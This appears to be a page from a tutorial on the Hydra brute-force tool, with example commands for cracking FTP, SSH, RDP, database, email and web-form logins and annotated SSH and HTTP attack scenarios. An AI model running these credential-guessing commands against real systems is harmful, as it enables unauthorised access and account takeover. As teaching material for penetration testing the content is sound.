 
### **Hydra Service Modules:**
Hydra supports a variety of services for brute-force attacks. Some commonly used ones include:

| **Service** | **Protocol** | **Description** | **Example Command** |
|------------|------------|----------------|------------------|
| **FTP** | File Transfer Protocol | Cracks FTP login credentials | `hydra -l admin -P passwords.txt ftp://192.168.1.100` |
| **SSH** | Secure Shell | Brute-force SSH logins | `hydra -l root -P passwords.txt ssh://192.168.1.100` |
| **HTTP-POST** | Web Login Forms | Cracks web authentication | `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"` |
| **SMTP** | Email Authentication | Cracks email server login credentials | `hydra -l admin -P passwords.txt smtp://mail.example.com` |
| **IMAP/POP3** | Email Access Protocols | Tests email account credentials | `hydra -l user@example.com -P passwords.txt imap://mail.example.com` |
| **MySQL/MSSQL** | Database Authentication | Brute-force login for database access | `hydra -l root -P passwords.txt mysql://192.168.1.100` |
| **RDP** | Remote Desktop Protocol | Cracks Windows RDP logins | `hydra -l administrator -P passwords.txt rdp://192.168.1.100` |


### **Practical Attack Scenarios**

#### **1. SSH Brute-Force Attack**
Targeting an SSH service using a wordlist of passwords:  
```bash
hydra -l root -P passwords.txt ssh://192.168.1.100
```
This command:  
✅ Uses "root" as the username  
✅ Tries all passwords from `passwords.txt`  
✅ Targets SSH on `192.168.1.100`  


#### **2. Brute-Forcing HTTP Authentication**
If a website uses basic HTTP authentication, Hydra can brute-force it:  
```bash
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
✅ Uses a list of usernames from `usernames.txt`  
✅ Tries all passwords from `passwords.txt`  
✅ Targets the login authentication of `www.example.com`  



#### **3. Brute-Forcing a Web Login Form**
If the login form requires a username and password via a POST request:  
```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
✅ Uses "admin" as the username  
✅ Tries all passwords from `passwords.txt`  
✅ Targets `/login` endpoint  
✅ Looks for HTTP status `302` to identify a successful login  

